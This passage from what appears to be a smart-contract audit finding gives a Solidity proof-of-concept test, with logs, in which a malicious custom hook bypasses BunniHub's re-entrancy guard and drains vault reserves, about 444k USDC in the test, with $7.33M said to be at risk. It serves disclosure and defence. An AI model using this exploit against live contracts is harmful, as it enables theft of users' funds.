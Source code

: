 ```solidity
    token0.approve(customHook, 2 * initialToken0Deposit);
    token1.approve(customHook, 2 * initialToken0Deposit);
    CustomHook(payable(customHook)).depositInitialReserves(
        address(token1), initialToken1Deposit, address(hub), poolManager, maliciousKey, false
    );
    CustomHook(payable(customHook)).mintERC6909(address(token0), initialToken0Deposit);
    uint256 shares =
        CustomHook(payable(customHook)).mintBunniToken(maliciousKey, initialToken0Deposit, initialToken1Deposit);

    console.log(
        "BunniHub token1 raw balance before",
        poolManager.balanceOf(address(hub), Currency.wrap(address(token1)).toId())
    );
    console.log("BunniHub token1 vault reserve before", ERC4626(USDCVault).maxWithdraw(address(hub)));
    uint256 hookBalanceBefore = token1.balanceOf(customHook);
    console.log("MaliciousHook token1 balance before", hookBalanceBefore);

    maliciousVault.setupAttack();
    CustomHook(payable(customHook)).initiateAttack(
        IBunniHub(address(hub)), maliciousKey, USDCVault, shares / 2, Vector.WITHDRAW, 17
    );
    console.log(
        "BunniHub token1 raw balance after",
        poolManager.balanceOf(address(hub), Currency.wrap(address(token1)).toId())
    );
    console.log("BunniHub token1 vault reserve after", ERC4626(USDCVault).maxWithdraw(address(hub)));
    console.log("MaliciousHook token1 balance after", token1.balanceOf(customHook));
    console.log("USDC stolen", token1.balanceOf(customHook) - initialToken1Deposit);
}
```

Logs:
```bash
[PASS] test_ForkWithdrawPoC() (gas: 23086872)
Logs:
  BunniHub token1 raw balance before 209036268296
  BunniHub token1 vault reserve before 447718769054
  MaliciousHook token1 balance before 50000000000
  BunniHub token1 raw balance after 209036268296
  BunniHub token1 vault reserve after 3757038234
  MaliciousHook token1 balance after 493961730811
  USDC stolen 443961730811
```

**Impact:** Both vault reserves and raw balances from all legitimate pools can be fully withdrawn by a completely isolated and malicious pool configured with a custom hook that bypasses the `BunniHub` re-entrancy guard. At the time of this audit and associated disclosure, these funds were valued at $7.33M.
